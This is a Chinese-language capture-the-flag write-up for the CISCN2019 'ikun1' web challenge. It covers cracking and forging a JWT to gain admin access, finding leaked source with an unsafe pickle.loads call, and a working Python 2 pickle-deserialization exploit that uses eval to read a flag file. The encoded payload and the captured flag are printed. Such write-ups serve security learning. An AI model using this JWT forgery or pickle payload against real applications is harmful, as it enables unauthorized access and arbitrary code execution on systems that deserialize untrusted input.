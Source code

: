 # 题目

## [CISCN2019 华北赛区 Day1 Web2]ikun1

提示 python pickle



1.查看页面源码，发现提示

![image-hint](../images/ikun-hint.png)

浏览页面，找到level 6的页面 181，

下单，修改优惠比例，提示admin才行，查看页面请求，得到jwt token

2.解密jwt token

JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluMSJ9.kFKLac89rUM6C1Rk2FHRmwWFsd0DFfwxuqM1rdaeRNU;

得到密码是1kun

![image-20240928220004976](../图片截图/image-20240928220004976.png)

重新构建jwt 填回页面，找到

```javascript
<div class="ui text container login-wrap-inf">
<!-- 潜伏敌后已久,只能帮到这了 -->
<a href="/static/asd1f654e683wq/www.zip" ><span style="visibility:hidden">删库跑路前我留了好东西在这里</span></a>
<div class="ui segments center padddd">
<!-- 对抗*站黑科技，目前为测试阶段，只对管理员开放 -->
<div class="ui segment">
<img src="/static/img/b.png" alt=""/>
```

3.下载源码

发现有pickle，怀疑有pickle反序列化漏洞(admin.py)

```python
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

构建运行脚本（需用python2）

```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print(a)
```



```shell
 ✘ 🐸   ~/Alven/CTF/BugKu/web-ikun1  /Users/alven/.pyenv/versions/2.7.18/bin/python /Users/alven/Alven/CTF/BugKu/web-ikun1/www/exp.py
c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
```



替换become参数为上payload，得出

![image-20240928223006263](../图片截图/image-20240928223006263.png)



flag{69f0688e-9ae0-4f82-a181-ad455a7a8fd1}